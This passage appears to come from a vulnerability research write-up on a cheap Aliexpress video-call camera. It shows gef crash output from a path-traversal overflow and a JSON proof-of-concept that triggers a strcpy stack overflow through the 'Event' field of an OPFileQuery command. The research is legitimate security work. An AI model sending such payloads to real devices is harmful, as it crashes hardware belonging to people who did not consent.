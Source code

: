 And here is the *gef* output:

```
Thread 41 "NetIPManager" received signal SIGSEGV, Segmentation fault.
0xb6dd9308 in std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::_M_dispose() ()
   from target:/lib/libstdc++.so.6

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x6c5f6972 ("ri_l"?)
$r1  : 0x69772f2e ("./wi"?)
$r2  : 0x0       
$r3  : 0x2e2f2e2f ("/./."?)
$r4  : 0x6c5f698e
$r5  : 0x69772f2e ("./wi"?)
$r6  : 0x2e2f2e2f ("/./."?)
$r7  : 0x69772f2e ("./wi"?)
$r8  : 0x2e2f2e2f ("/./."?)
$r9  : 0x00676f6c  →  0x00000000
$r10 : 0xb5204f60  →  "/./././././././././././../wifi_list_log"
$r11 : 0x6c5f6966 ("fi_l"?)
$r12 : 0x005f0598  →  0xb6dd9308  →  <std::__cxx11::basic_string<char,+0> ldr r3,  [r0],  #8
$sp  : 0xb5204cf0  →  0xb5204f38  →  "/././././././././././././././././././././././././.[...]"
$lr  : 0x00099e20  →   b 0x99e0c
$pc  : 0xb6dd9308  →  <std::__cxx11::basic_string<char,+0> ldr r3,  [r0],  #8
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
─────────────────────────────────────────────────────────────────────────────
```

Interestingly we didn't clobber a canary this time, but we have such a small amount of control of the contents we overflow with that this will likely still be a DoS.

## Stack Overflow 3

It wouldn't be an Aliexpress device without a trivial **strcpy** stack overflow! In the handler for *0x5a4*, there is a subcommand *OPFileQuery* that has a few parameters, the *Event* parameter gets passed into a **strcpy** into a stack buffer - classic.

![stack_overflow_3.png](/assets/images/video_call_camera_p4/stack_overflow_3.png)

This is a nice easy PoC.

```
-json
JSON Payload:
{
  "SessionID": "0x0001869f",
  "OPFileQuery": {
    "LowChannel": 1,
    "HighChannel": 1,
    "Type": "idk",
    "Event": "aaaaaaa ...*LOTS MORE a's*... aaaaaa",
    "BeginTime": "0000-00-00 00:00:00",
    "EndTime": "0000-00-00 00:00:00",
    "LowStreamType": "0"
  }
}
```
